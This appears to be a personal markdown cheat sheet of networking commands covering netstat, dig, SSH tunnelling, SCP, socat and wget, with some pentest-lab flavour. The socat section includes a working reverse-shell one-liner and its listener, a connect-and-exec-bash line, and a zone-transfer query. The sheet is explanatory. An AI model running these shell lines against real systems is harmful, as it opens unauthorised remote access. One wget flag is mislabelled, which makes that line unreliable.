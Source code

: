 # Networking Basics and a Bit Beyond

Netstat, DNS utils, SSH, SCP, Netcat,


## netstat

> Standard Netstat commands.  Would make good Aliases?

```sh
# find all established connections
netstat -an | grep ESTABLISHED | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -n
# find all established connections by port
netstat -an | grep ESTABLISHED | awk '{print $5}' | cut -d: -f2 | sort | uniq -c | sort -n
# find all established connections by ip and port
netstat -an | grep ESTABLISHED | awk '{print $5}' | sort | uniq -c | sort -n
# get all listening ports
netstat -an | grep LISTEN | awk '{print $4}' | cut -d: -f2 | sort | uniq -c | sort -n
# get all listening ports by ip
netstat -an | grep LISTEN | awk '{print $4}' | cut -d: -f1 | sort | uniq -c | sort -n
# get all listening ports by ip and port
netstat -an | grep LISTEN | awk '{print $4}' | sort | uniq -c | sort -n
```

## DNS

["Actually one of the best DNS tutorials I've Seen"]https://www.cloudflare.com/learning/dns/what-is-dns/)

### DIG (Domain Information Groper)

```bash
## DIG commands
dig www.google.com
dig www.google.com A                    
dig www.google.com A +short             # short cuts down on the output
dig www.google.com ANY +noall +answer   # Returns all records
dig -x 192.168.8.8 +noall +answer       # Reverse lookup
dig www.google.com A +noall +answer     # Returns all A records
dig www.google.com +nocomments \        # only answer section
   +noquestion +noauthority \
   +noadditional +nostats      
dig www.google.com A +noall \           # ttl - time to live records
    +answer +ttlid 
dig www.google.com A +noall \           # get the ttl for the record
  +answer +ttlid | grep -v '^;' \
  | awk '{print $2}'
dig @ns1.google.com google.com axfr     # zone transfer
### DNS record types
dig www.google.com MX +short            # mail
dig www.google.com NS +short            # name server
dig www.google.com TXT +short           # text
dig www.google.com SOA +short           # start of authority
dig www.google.com CNAME +short         # canonical name
```
### Host
return multiple files.
```
kali@kali:~$ host -t mx megacorpone.com
megacorpone.com mail is handled by 10 fb.mail.gandi.net.
megacorpone.com mail is handled by 50 mail.megacorpone.com.
megacorpone.com mail is handled by 60 mail2.megacorpone.com.
megacorpone.com mail is handled by 20 spool.mail.gandi.net.
```

## SSH 

> Non Default things
  A few non std things like, Proxy Chains, mounting dirs (with external Lib), ect

```sh
# To ssh via pem file (which normally needs 0600 permissions):
ssh -i <pemfile> <user>@<host>
# To connect on a non-standard port:
ssh -p <port> <user>@<host>
# To connect and forward the authentication agent:
ssh -A <user>@<host>
# To execute a command on a remote server:
ssh -t <user>@<host> 'the-remote-command'
# To connect to a host with a specific key exchange algorithm:
# Full list of available algorithms : man ssh_config
ssh -oKeXAlgorithms=+diffie-hellman-group-exchange-sha1 <user>@<server>
# To tunnel an x session over SSH:
ssh -X <user>@<host>
# Redirect traffic with a tunnel between local host (port 8080) and a remote
# host (remote.example.com:5000) through a proxy (personal.server.com):
ssh -f -L 8080:remote.example.com:5000 user@personal.server.com -N
# To launch a specific x application over SSH:
ssh -X -t <user>@<host> 'chromium-browser'
# To create a SOCKS proxy on localhost and <port>:
ssh -qND <port> <user>@<host>
# To tunnel an ssh session over the SOCKS proxy on localhost and port 9999:
ssh -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <user>@<host>
# -X use an xsession, -C compress data, "-c blowfish" use the encryption blowfish:
ssh <user>@<host> -C -c blowfish -X
# To copy files and folders through ssh from remote host to pwd with tar.gz
# compression when there is no rsync command available:
ssh <user>@<host> "cd /var/www/Shared/; tar zcf - asset1 asset2" | tar zxf -
# To mount folder/filesystem through SSH
# Install SSHFS from https://github.com/libfuse/sshfs
# Will allow you to mount a folder securely over a network.
sshfs <user>@<host>:/path/to/folder /path/to/mount/point
# Emacs can read file through SSH
# Doc: http://www.gnu.org/software/emacs/manual/html_node/emacs/Remote-Files.html
emacs /ssh:<user>@<host>:<file>
```
<hr />

# SCP 

> Custom port, SOCKy, and Multi Machine.

```bash

# Custom Port copy a file from your local machine to a remote server:
scp -p 1234 <file> <user>@host:<destf>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```
<hr />

# Netcat

>  SANS always has great resources

<object width="400" height="500" type="application/pdf" data="../docs/NC_SANS.pdf?#zoom=85&scrollbar=0&toolbar=0&navpanes=0">
<p> Cant render.</p>

[SANS NC Cheat Sheet](../docs/NC_SANS.pdf)
</object>

## Socat

### netcat comparsion socat

```sh

sudo nc -lvp localhost 443
sudo socat TCP4-LISTEN:443 STDOUT
```

### Socat Examples

```sh
# socat connect to http-server (port 80 on 'somesite.com')
socat TCP4:somesite.com:80 -
# connect to https-server (port 443 on 'somesite.com' with tls)
socat openssl:somesite.com:443 -
# listen, increased verbosity, and print to STDOUT
socat -d -d TCP4-LISTEN:443 STDOUT
# EXEC option (similar to the Netcat -e option)
socat TCP4:somesite.com:443 EXEC:/bin/bash
# tcp-listener (port 3180), output as hexdump (-x) and fork for new connetions
socat -x tcp-listen:3180,fork -
# echo executable and connect via tcp 
echo "bash" | socat -d -d TCP4-CONNECT:172.16.53.20:456 STDOUT
# http-example:  
#  (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: somesite.com\r\n\r" && sleep 1) \
| socat tcp4:somesite.com:80 -
# http to httpS 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80
# port forwarding (e.g. own port 3180 to port 22(ssh) on target
socat TCP4-LISTEN:3180,reuseaddr,fork TCP4:somesite.com:ssh
# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
# network (port 8266) to serial bridge (/dev/ttyUSB0 baudrate: 115200)
socat TCP4-LISTEN:8266,fork,reuseaddr /dev/ttyUSB0,raw,crnl,b115200
# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321
# reverse shell:
socat exec:'bash -i',pty,stderr tcp:remote.somesite.com:3180
# listener for above reverse shell (on remote.somesite.com):
socat file:`tty`,raw,echo=0 tcp-listen:3180 # or: nc -lp 3180
```

## WGET 

### Examples 

Rucursive WGET Search for String and removing downloaded (6 layers deep son) site.

    SITEURL="https://www.example.com"
    wget -r -l6 -p -nc -k $SITEURL && grep -r "STRING2SEARCH" . && rm -r $SITEURL

    - p option: page-requisites downloads all files (css,js, ect) to render page correctly
    
    - l option is how many layers deep to go, son
    
    - nc option: no-clobber, don't hulk smash and ensure files aren't overwritten, adds
      suffix to filename.

    - k skip cert checks

Further examples:

```sh
# To download <url>:
wget <url>
# download all content
wget --recursive <url>
# To download multiples files with multiple URLs:
wget <url>...
# To download <url> and specify output name:
wget <url> -O <outfile>
# To download <url> into <dir>:
wget -P <dir> <url>
# To continue an aborted downloaded:
wget -c <url>
# To parse a file that contains a list of URLs to fetch each one:
# Ignore cert check
wget --no-check-certificate <url>
wget -i url_list.txt
# To mirror a whole page locally:
wget -pk <url>
# To mirror a whole site locally:
wget -mk <url>
# To download files according to a pattern:
wget http://example.com/files-{1..15}.tar.bz2
# To download all the files in a directory with a specific extension if directory indexing is enabled:
wget -r -l1 -A.extension http://example.com/directory
# To download only response headers (-S --spider) and display them on stdout (-O -).:
wget -S --spider -O - <url>
# To change the User-Agent to 'User-Agent: toto':
wget -U 'toto' <url>
# To download a file with spec
wget --limit-rate=500k <url>
```


